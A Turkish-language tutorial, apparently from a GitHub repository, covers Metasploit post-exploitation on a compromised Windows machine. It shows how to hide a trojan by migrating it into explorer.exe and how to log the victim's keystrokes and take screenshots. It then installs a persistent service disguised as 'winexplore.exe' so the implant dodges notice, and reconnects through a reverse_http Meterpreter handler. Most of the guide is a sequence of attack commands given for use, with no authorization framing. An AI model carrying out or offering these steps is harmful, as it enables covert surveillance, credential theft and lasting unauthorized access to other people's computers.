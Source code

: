 
![resim](https://user-images.githubusercontent.com/18248422/175042903-d4c38166-dd6d-4ce5-ae28-71904fc1ad94.png)

## Bağlantı (hack) sonrası yapılacaklar

### Migrate (işlem göçü)

  migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;

![resim](https://user-images.githubusercontent.com/18248422/175042942-7016745a-5a74-40e3-b23b-904ac2cb9f8e.png)

 Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz. 
 Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.

![resim](https://user-images.githubusercontent.com/18248422/175042998-9d824e4a-97d5-47af-8a4a-b456daac5eae.png)

burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.

NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!

### Meterpreter ile Keylogger(keystroke) çalıştırmak

Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;

![resim](https://user-images.githubusercontent.com/18248422/175043272-49faf1ae-436b-4e85-8fa5-031789ebe777.png)
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;

![resim](https://user-images.githubusercontent.com/18248422/175043298-8c3a2def-1649-4512-a358-9ca72e1bc02c.png)

"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere  “keyscan_dump” yazmamız yeterli.

### Screenshot almak

"screenshot" komutunu yazmamız yeterli.

### Hacklenen Cihazda Kalıcı Hale Gelmek

 Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye  “background” komutu ile dönüyoruz.  Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
![resim](https://user-images.githubusercontent.com/18248422/175043511-61ebdfb5-dff8-4650-aad3-a1b1f1920b9e.png)

  Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz. 

 Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043557-203c8969-609c-4195-af9f-d5bc65482135.png)
 
  "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki  “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye  “winexplore.exe” dedik.
 
 Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
 ![resim](https://user-images.githubusercontent.com/18248422/175043621-41c698e2-bced-43ec-b515-98d27296ac69.png)

 "set SESSION 1" diyerek session kısmını da belirledik.
 
 Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043651-f60b8d43-9b08-4a99-9cfc-5b29f1bb3dc9.png)

 ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
 NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
 
 Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043692-37626624-1781-432f-a1ff-dd17af77085b.png)

 
 EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
 
 Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043740-ce51fa99-ac9f-421f-89ad-55e09b92ed2b.png)

 "exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir. 
 
 
 Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043758-8dd47976-c22b-4a92-9fc0-eb5b98fc4b8b.png)

  burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz. 
 
  Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak. 
  
  kaynak: https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/
  
  ![resim](https://user-images.githubusercontent.com/18248422/175043850-63f30f8e-9c7d-49c6-8f30-cbfc50c4bb66.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043879-23c6b837-c028-4634-8904-e2a9c67a0492.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043903-0fd8a40c-82a8-4511-9565-cca5396bfb42.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043922-eb075f16-ad88-462e-af7c-12fb41180ae5.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043959-4fc27dcc-7210-403a-9519-dbdd117b98ca.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043986-c0f65737-8802-4695-807c-b49e2290678e.png)

## created by [@ahmetkara](https://github.com/ahmetQara)


  
  
  
  
  
  
  
  
  
 

